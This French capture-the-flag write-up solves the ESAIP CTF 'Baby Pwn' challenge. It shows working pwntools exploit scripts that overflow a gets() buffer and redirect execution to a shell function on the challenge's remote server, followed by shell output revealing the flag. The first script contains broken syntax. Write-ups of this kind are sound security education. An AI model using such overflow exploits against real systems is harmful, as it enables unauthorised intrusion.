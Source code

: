 ```yaml
---
title: "[ESAIP CTF] - Baby Pwn (450)"
date: 2022-01-02
categories: ['pwn']
draft: false
---
```


---
### Author : `Rxphgui` 
---

Nous allons aujourd'hui voir le premier challenge d'exploitation de binaire de l'ESAIP CTF. Il s'agissait d'un challenge d'introduction. Pourtant il avait moins de 10 solves.
Nous n'avions simplement le binaire ainsi qu'un accès remote.

## Introduction

Pour commencer nous allons analyser le binaire de manière assez simple : 

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ file babypwn              (06-05 16:41)
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=950806fb3e5df438288e966762b67e0c218467a5, for GNU/Linux 3.2.0, not stripped
```
Puis faire un `checksec` pour voir les protections activées :

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ checksec --file=babypwn                                    (06-05 16:41)
[*] '/home/raphgui/Téléchargements/pwn/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

En ouvrant le binaire avec **IDA**, on voit une fonction `main` qui prend une entrée user par un `gets`.
On peut donc buffer overflow, le buffer est de *32*.

## Exploitation

J'ai perdu pas mal de temps sur ce challenge car je n'avais pas remarqué la présence de le fonction `Shell`.
J'ai d'abord utilisé l'option `ropchain` de **ROPgadget** qui marchait en local mais pas en remote.

Suite à ça, j'ai commencé à regardé de plus près le binaire, et nous n'avions pas de fonction system de la `libc`.
Il y avait cependant une fonction system qui executait `do_system`, nous ne pouvions pas directement jump sur cette fonction.

```nasm
system :

test    rdi, rdi
jz      do_system
```

J'ai cherché des gadgets pour notre `test rdi, rdi`. L'exploit ne marchait pas en remote :

```python
from pwn import *

elf = context.binary = ELF('./chall')
p = elf.process()

buffer = b"A"32
sRBP   = b"B"8

gadget_xor         = p64(0x446c99) # xor rax, rax; ret
gadget_mov_rdi_rax = p64(0x455403) # mov rdi, rax 
gadget_ret         = p64(0x4552A5) # ret

addr_system = p64(0x411090)

ropchain = b""
ropchain += buffer
ropchain += sRBP
ropchain += gadget_xor
ropchain += gadget_mov_rdi_rax
ropchain += gadget_ret
ropchain += addr_system

# Username : 
p.sendline(ropchain)

#Password :
p.sendline(b'\x00')

p.interactive()
```

## Get a Shell

Je reste sur deux échecs qui m'ont fait perdre pas moins de 1 heure. Je devais donc flag. :)
Je me met à analyser le binaire (les fonctions) et je tombe sur cette fameuse fonction :

```
0x401d95 <shell>
```

Nous n'avions plus qu'a jump dessus tel que :

```python
from pwn import *
#r = process('./chall')
r = remote('baby-pwn.esaip-cyber.com', 55555)

buffer = b"A"*32
sRBP   = b"B"*8

addr_shell = p64(0x0000000000401D9e)

payload = b""
payload += buffer
payload += sRBP
payload += addr_shell

#print(r.recvuntil("\n"))
r.sendline(payload)
r.sendline(b'hey')
#print(r.recvuntil("\n"))
r.interactive()
```

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ python3 exploit.py                                                                                                                                                             (06-05 16:56)
[+] Opening connection to baby-pwn.esaip-cyber.com on port 55555: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ cat flag
ECTF{A_l1ttl3_b4by_pwny}
```

